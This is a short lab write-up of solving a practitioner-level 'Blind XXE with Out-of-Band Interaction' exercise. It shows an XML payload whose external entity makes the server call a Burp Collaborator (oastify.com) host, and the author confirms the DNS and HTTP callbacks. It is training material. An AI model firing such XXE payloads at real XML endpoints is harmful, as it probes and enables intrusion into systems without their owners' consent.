



---

### Lab: Blind XXE with Out-of-Band Interaction

**Difficulty:** Practitioner


---

### Lab Overview

This lab has a “Check stock” feature that accepts XML input, but it does **not** show any result in the response. Because of this, normal XXE (where the file content appears in the response) will not work.

The goal is to detect the **Blind XXE** vulnerability by making the server send an out-of-band request to Burp Collaborator.



---

### Steps I Followed

**1. Intercepted the request**

I clicked on “Check stock” and intercepted the request in Burp Suite. The request was going to `/product/stock` with XML data.




**2. Created the Blind XXE payload**

Since the application doesn’t reflect the entity value, I used an external entity pointing to my Burp Collaborator payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY test SYSTEM "<http://oumbnanc23e50h243yies7ocw32uqlea.oastify.com>">
]>
<stockCheck>
  <productId>&test;</productId>
  <storeId>1</storeId>
</stockCheck>
```

**3. Sent the request**

After sending the payload, I went to the **Collaborator** tab and clicked on “Poll now”.



**4. Result**

I received both **DNS** and **HTTP** interactions in Collaborator. This confirmed that the server processed the external entity and made a request to my Collaborator URL.

### Conclusion

Even though the application did not return any data in the response, the out-of-band interaction proved that it is vulnerable to Blind XXE.

Lab solved successfully.


---